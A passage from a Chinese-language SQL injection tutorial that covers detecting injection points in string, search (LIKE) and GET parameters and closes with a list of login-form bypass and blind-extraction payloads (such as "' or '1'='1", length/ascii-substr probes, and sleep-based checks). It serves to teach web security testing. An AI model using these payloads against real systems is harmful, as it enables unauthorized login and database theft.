 ```sql
select * from 表名 where name='1' and 1=1 --+';
```

​	使用`'`提前闭合引号，然后继续使用与运算，判断代码是否报错，最后用注释符注释掉多余的引号，如果这个代码没有报错且页面数据正常显示，可继续尝试：

```sql
select * from 表名 where name='1' and 1=2; --+'
```

​	如果这个代码报错，或页面无回显，则说明此处很有可能存在SQL注入点。

* **搜索型注入点：**

  搜索型一般使用like关键字，模糊匹配数据库中的相关数据，SQL原句为：

```sql
select * from 表名 where 字段 like `%关键字%`;
# eg: select `name`,`gender` from student where name like '%admin%';
```

​	其中like关键字之后的值为用户传入的值，因此，要闭合需要用到`%'`，如此，可以尝试构建payload：`admin%' and 1=1 --+`，此时，SQL语句被更改为：

```sql
select * from 表名 where 字段 like `%admin%` and 1=1 --+ %`;
```

​	此时，若代码无报错，或页面内容回显正常，则可以进一步尝试：`admin%' and 1=2 --+`

```sql
select * from 表名 where 字段 like `%admin%` and 1=2 --+ %`;
```

​	若此时代码报错，或页面无回显，则说明此处可能存在注入点，可以进行下一步测试。

#### 按照数据提交方式判断：

* **GET请求**

  对于web端，GET请求传递数据一般表现在URL中，例如:

```http
http://www.example.com/index.php?id=1
```

​       其中，`?`后面就代表传递的参数，id为注入点。一些payload可以借助url传递给后端，如：

```http
http://www.example.com/index.php?id=1 and 1=1 --+
```

​       然后判断是否有回显页面，如果回显正常，说明这个语句没有引起后端查询程序的报错，进一步尝试其他的：

```http
http://www.example.com/index.php?id=1 and 1=2 --+
```

​        一般，由于这个语句的布尔值为`False`因此，如果注入成功，则页面无回显数据，反之，则证明注入失败，则需要考虑前面提到的通过数据类型判断注入点。

* **POST请求**

  使用POST请求提交表单数据，注入点一般在POST数据部分，例如登录框，注册框等。

```sql
常用的万能username语句：
 a' or 1=1 #
 a") or 1=1 #
 a') or 1=1 #
 a" or "1"="1
 ' or '1'='1
 ' or (length(database())) = 8  (用于输入’ “都没有错误)
 ' or (ascii(substr((select database()) ,1,1))) = 115 # (用于输入’ “都没有错误)
 ") or ("1")=("1
 ") or 1=1 or if(1=1, sleep(1), null)  #
 ") or (length(database())) = 8 #
 ") or (ascii(substr((select database()) ,1,1))) = 115  or if(1=1, sleep(1), null)  #
```

